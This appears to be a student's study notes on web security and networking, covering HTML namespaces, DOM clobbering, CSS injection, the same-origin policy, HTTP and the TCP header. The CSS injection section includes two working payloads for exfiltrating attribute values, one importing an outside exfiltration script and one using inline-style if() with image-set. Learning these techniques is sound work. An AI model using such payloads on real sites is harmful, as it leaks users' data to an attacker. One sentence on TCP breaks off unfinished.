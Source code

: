 ## Week 1 and 2 Learnings

### Tags and Attributes
Apart from common tags like `<div>, <span>, <img>, <a>,` etc, there are special tags like `<meta>, <svg>, <object>, <iframe>,` etc. Each tag has its own set of attributes.

Reference to look: https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements

### Namespaces
- HTML supports namespaces.
- Namespaces are the concept of scoping in XML languages.
- The standard namespace for HTML is "http://www.w3.org/1999/xhtml".
- Standard for SVG is "http://www.w3.org/2000/svg".
- Standard for MathML is "http://www.w3.org/1998/Math/MathML".

### MathML
- MathML describes mathematical notations and is useful in rendering mathematical expressions.
- Kind of like latex

### SVG
- SVG is a vector image format for 2D graphics.
- Writing SVG is like writing XML. You just have to define the geometric shapes using tags like `<circle>, <rect>, <line>, <path>,` etc.

### DOM Clobbering
- Technique where HTML elements can override javascript variables.
- HTML elements with "name" attributes become global variables.
- If a variable is defined in JS and an HTML element with the same name is injected, the variable gets overridden.
- In this way, the logic can be manipulated.
- Helpful in cases where XSS is not possible.

### CSS Injection
- If `<style>` tags are allowed, CSS injection is possible.
- The values in attributes of elements can be exfiltrated. For example, if an input field has value="test", an attacker can read this value using CSS by using the attribute selectors. Using the background-image property, one can set the url to the attacker's server. When the CSS is rendered, the request will be sent to the attacker's server with the value.
- It is a brute force method, since the value has to be guessed for each character.
ref: https://portswigger.net/research/blind-css-exfiltration

- Useful payload : 
```html
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```

- Without brute force is also possible using `image-set`.
- Reference: https://x.com/slonser_/status/1912060415296835961

- Even inline style can be used due to recent CSS feature of being able to use if statements: https://portswigger.net/research/inline-style-exfiltration

- Note: The value in if statement should be enclosed in double quotes, using single quotes will not work.

- Useful payload:
```html
<div style='--val:attr(title);--steal:if(style(--val:"1"): "/1"; else: "/2");background:image-set(var(--steal))' title=1>test</div>
```

### Same Origin Policy (SOP)

- Restricts how scripts from one origin can interact with resources from another origin.

- Using Allow-Origin: * is dangerous, external sripts can read sensitive data.

### HTTP Protocol:

- Flow: 
    1. Resolve DNS
    2. Establish TCP connection (3 way handshake)
    3. Send HTTP request, which contains method, path, headers and body.
    4. Server processes request and sends back response with status code, headers and body.

HTTP/1.1 vs HTTP/2:
- HTTP/1.1 is text based, while HTTP/2 is binary.
- HTTP/2 supports multiplexing, where multiple requests can be sent over a single connection.
- HTTP/2 compresses headers, making it more efficient.


**RFC**: Request For Comments

It is a standard that describes the the protocol of the internet.

https://www.ietf.org/

### TCP is in layer 4 of OSI model (Transport Layer)

### TCP 14KB problem:

If the size of a page is more than 14KB, the connection will have to make another trip to fetch the remaining data, which increases latency. The size of TCP packet is 

### Structure of TCP packet:

TCP Header (20 bytes):
- Source Port (2 bytes)
- Destination Port (2 bytes)
- Sequence Number (4 bytes)
- Acknowledgment Number (4 bytes)
- Data Offset (4 bits)
- Reserved (3 bits)
- Flags (9 bits)
- Window Size (2 bytes)
- Checksum (2 bytes)
- Urgent Pointer (2 bytes)
- Options (variable length)
- Padding (variable length)

![alt text](image.png)

Data is also of variable length.

